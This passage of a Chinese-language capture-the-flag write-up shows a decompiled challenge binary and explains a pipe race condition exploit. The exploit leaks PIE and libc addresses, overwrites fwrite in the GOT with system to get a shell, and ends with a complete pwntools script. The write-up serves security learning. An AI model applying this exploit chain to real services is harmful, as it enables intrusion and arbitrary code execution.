  printf("Destroying message with len '%d' by %s\n", (unsigned int)message->destroy_buf_len, message->name);
  fwrite(message->destory_buf, 1uLL, (int)message->destroy_buf_len, devnull);
  if ( (void *)first == NULL_MESSAGE )
    first = (__int64)message;
  else
    *(_QWORD *)(last + 8) = message;
  result = message;
  last = (__int64)message;
  return result;
}
```

```c
void *flush_messages()
{
  void *result; // rax

  first = (__int64)NULL_MESSAGE;
  result = NULL_MESSAGE;
  last = (__int64)NULL_MESSAGE;
  return result;
}
void *__fastcall redact_message(struct command *command)
{
  void *result; // rax
  int index; // [rsp+14h] [rbp-14h]
  struct message *v3; // [rsp+18h] [rbp-10h]
  struct message *i; // [rsp+20h] [rbp-8h]

  index = 0;
  v3 = (struct message *)NULL_MESSAGE;
  for ( i = (struct message *)first; i != NULL_MESSAGE && v3 == NULL_MESSAGE; i = (struct message *)i->next )
  {
    if ( index == command->index )
      v3 = i;
    ++index;
  }
  result = NULL_MESSAGE;
  if ( v3 != NULL_MESSAGE )
  {
    v3->destroy_buf_len = 1;
    result = *(void **)command->buff;
    *(_QWORD *)v3->destory_buf = result;
  }
  return result;
}
void *print_messages()
{
  void *result; // rax
  struct message *i; // [rsp+8h] [rbp-8h]

  for ( i = (struct message *)first; ; i = (struct message *)i->next )
  {
    result = NULL_MESSAGE;
    if ( i == NULL_MESSAGE || !i )
      break;
    printf("Message %p is '%s' by %s. Next is %p\n", i, i->destory_buf, i->name, (const void *)i->next);
  }
  return result;
}
struct message *__fastcall receive_message(int pipe_read)
{
  int destroy_buf_len; // [rsp+10h] [rbp-30h] BYREF
  int index; // [rsp+14h] [rbp-2Ch]
  void *p_next; // [rsp+18h] [rbp-28h]
  struct message *message; // [rsp+20h] [rbp-20h]
  __int64 remain_len; // [rsp+28h] [rbp-18h]
  ssize_t read_bytes; // [rsp+30h] [rbp-10h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  read(pipe_read, &destroy_buf_len, 4uLL);
  message = create_message(destroy_buf_len);
  remain_len = destroy_buf_len + 0x48LL;
  p_next = &message->next;
  index = 0;
  while ( remain_len > index )
  {
    read_bytes = read(pipe_read, p_next, remain_len - index);
    if ( read_bytes == -1 || !read_bytes )
    {
      printf("Protocol error!");
      exit(1);
    }
    index += read_bytes;
    p_next = (char *)p_next + read_bytes;
  }
  return message;
}
```

```c
struct message *__fastcall create_message(int destroy_buf_len)
{
  struct message *message; // rax

  message = (struct message *)malloc(destroy_buf_len + 0x50LL);
  message->mes_or_com = 0;
  message->next = NULL_MESSAGE;
  message->destroy_buf_len = destroy_buf_len;
  return message;
}
struct message *__fastcall create_fill_message(const void *name, const void *destroy_buf, int destroy_buf_len)
{
  struct message *message; // [rsp+28h] [rbp-8h]

  message = create_message(destroy_buf_len);
  memcpy(message->name, name, sizeof(message->name));
  memcpy(message->destory_buf, destroy_buf, destroy_buf_len);
  return message;
}
ssize_t __fastcall send_message(struct message *message, int pipe_write)
{
  return write(pipe_write, message, message->destroy_buf_len + 0x50);
}
// bad sp value at call has been detected, the output may be wrong!
void __fastcall __noreturn talk(int client_fd, int pipe_write)
{
  int v2; // eax
  int index; // [rsp+10h] [rbp-27168h]
  int j; // [rsp+14h] [rbp-27164h]
  int i; // [rsp+18h] [rbp-27160h]
  int read_bytes; // [rsp+1Ch] [rbp-2715Ch]
  struct message *fill_message; // [rsp+20h] [rbp-27158h]
  char name[64]; // [rsp+28h] [rbp-27150h] BYREF
  char destroy_buf[272]; // [rsp+68h] [rbp-27110h] BYREF
  char v10; // [rsp+178h] [rbp-27000h] BYREF
  __int64 v11[512]; // [rsp+26178h] [rbp-1000h] BYREF

  while ( v11 != (__int64 *)&v10 )
    ;
  v11[511] = __readfsqword(0x28u);
  index = 0;
  dprintf(client_fd, "Welcome to the network blackhole! What do you want to destroy?\n");
  do
  {
    read_bytes = read(client_fd, &destroy_buf[index], 0x27100 - index);
    for ( i = 0; i < read_bytes && destroy_buf[index + i] != '\n'; ++i )
      ;
    index += i;
  }
  while ( i >= read_bytes );
  destroy_buf[index] = 0;
  dprintf(client_fd, "Please leave also your name for recording purposes!\n");
  read(client_fd, name, 0x40uLL);
  for ( j = 0; j <= 63 && name[j] != '\n'; ++j )
    ;
  name[j] = 0;
  fill_message = create_fill_message(name, destroy_buf, index);
  v2 = rand();
  usleep(1000 * (v2 % 10 + 1));
  send_message(fill_message, pipe_write);
  dprintf(client_fd, "Data sent to the blackhole, bye!\n");
  destroy_packet(fill_message);
  close(client_fd);
  exit(0);
}
```

# 思路
- 多个进程同时向管道写入超过管道缓冲区大小的内容，使一次管道接收流程在尚未收完时被打断
- 随后唤醒另一个进程向管道写入，使剩余接收的数据来自另一个进程的管道写入；下一轮接收的便是我们自行构造的内容。不过，原始数据残留的那部分可能干扰后续接收中的管道流程，但问题不大，不会导致程序崩溃，只需成功一次即可



另一个是 st4k 师傅的思路和示意图，如图所示


实现同时写管道：通过信号量。先将数据发送过去，再通过信号量机制同时开始写入


泄露 PIE：利用残留的 next 字段为 NULL_MESSAGE 变量，其中保存了 PIE 地址，可以通过 printf_message 泄露

泄露 libc：已有 PIE 后，仍可利用上述管道竞争，让接收到的 message 是由 destory_buffer 构造的。这样就能控制 message 的全部字段；将 next 控制到 GOT 表附近，使 next 的 next 部分落到 GOT 表中，便可泄露 libc。写入时需要指定索引，可以先构造 command_flush 命令结构体以清空索引，再发送 message，最后 command_redact。注意：要确保 next 对应的 next 的 next 为空

劫持程序流程：直接将 system 写入 GOT 表；构造 next，使其对应 next 的 destory_buf 部分为 GOT 表，再通过 redact_message 将其改为 system 函数——修改这里 `fwrite(message->destory_buf, 1uLL, (int)message->destroy_buf_len, devnull);` 中的 fwrite，然后将 message->destory_buf 设为 /bin/sh，最后由 handle_message 触发 fwrite


# 利用脚本

```python
from pwn import *
import threading
# Raw intereraction with challenge frontend
PIPE_BUF=65536
def send_message(message, author, sync: threading.Semaphore):
    try:
        r = remote("127.0.0.1", SERVICE_PORT)
        r.sendline(message)
        r.send(author)
        sync.acquire()
        r.send(b"\n")
        r.close()
    except:
        pass

# Helper function to inject a payload using the race condition
def send_stage(payload: dict):
    sync = threading.Semaphore()

    payload_raw = flat(payload)

    #payload = b""
    payload_raw += cyclic(PIPE_BUF-len(payload_raw))
    print("Starting threads...")
    for i in range(30):
        x = threading.Thread(target=send_message, args=(payload_raw,str(i).encode()*63, sync))
        x.start()

    print("Waiting for data to be sent")
    time.sleep(5)
    print("Triggering race condition!")
    sync.release(30)

### Helper functions to create C structs defined in challenge code
def build_message(message, author, next):
    return flat({
        0: 0,
        4: len(message),
        8: p64(next),
        16: author,
        16+64: message
    }, word_size=32)


def build_command(instruction, parm1 = 0, parm2 = 0):
    return flat({
        0: 1,
        4: instruction,
        8: p64(parm1),
        16: p64(parm2)
    }, word_size=32)

### Shortcuts for commands
def command_flush():
    return build_command(0xDEADC0DE)

def command_print():
    return build_command(0xdeadbeef)

def command_redact(id, data):
    return build_command(0xcafebabe, id, data)

def leak_text(r: pwnlib.tubes.tube.tube):
    payload = {
        0: command_print(),
    }
    send_stage(payload)
    while True:
        null_element_address = int(r.recvline_contains(b"Next is ").strip().split(b"Next is ")[1], 0)
        print(f"Leaked {hex(null_element_address)}")

        test_address = null_element_address-exe.symbols["NUL"]

        # This is an hacky way to identify the correct address from the various leaks.
        if test_address % 4096 == 0:
            exe.address = test_address
            break

    print(f"Text base address = {hex(exe.address)}")
    sleep(1)

# Payload to perform arbitrary write
def write_payload(addr, data):
    return command_flush() + build_message(b"CUT-HERE-FOR-WRITE", b"CUT-HERE-FOR-WRITE\0", addr-0x80+6*8) + command_redact(1, data)
def read_payload():
    return command_print()


def leak_libc(r: pwnlib.tubes.tube.tube):
    # Before printing, we are gonna write 0x0 right before the address to be leaked
    # So that mex->next is NULL
    payload = {
        0: write_payload(exe.got.fwrite-0x8, 0x0) + read_payload(),
    }
    send_stage(payload)

    # Discard useless prints
    r.recvline_contains(b"'CUT-HERE-FOR-LIBC-LEAK' by CUT-HERE-FOR-LIBC-LEAK. Next is ")

    # Read leaked address
    leaked_address = u64(r.recvline().strip().split(b"'' by ")[1].split(b".")[0]+b'\x00\x00')
    print(f"libc.sym.fwrite = {hex(leaked_address)}")
    libc.address = leaked_address - libc.sym.fwrite
    print(f"Libc base address = {hex(libc.address)}")
    sleep(1)

def rewrite_got(r: pwnlib.tubes.tube.tube):
    payload = {
        0: write_payload(exe.got.fwrite, libc.sym.system) + build_message(b"/bin/sh", b"Master pwner", 0x0),
    }

    send_stage(payload)

exe=ELF("./chal")
libc=ELF("./libc.so.6")

p=process("./chal")
p.recvuntil(b"Port is ")
SERVICE_PORT=int(p.recvuntil(b"\n",drop=True))
print("remote port "+str(SERVICE_PORT))
leak_text(p)
leak_libc(p)
rewrite_got(p)
p.close()

```

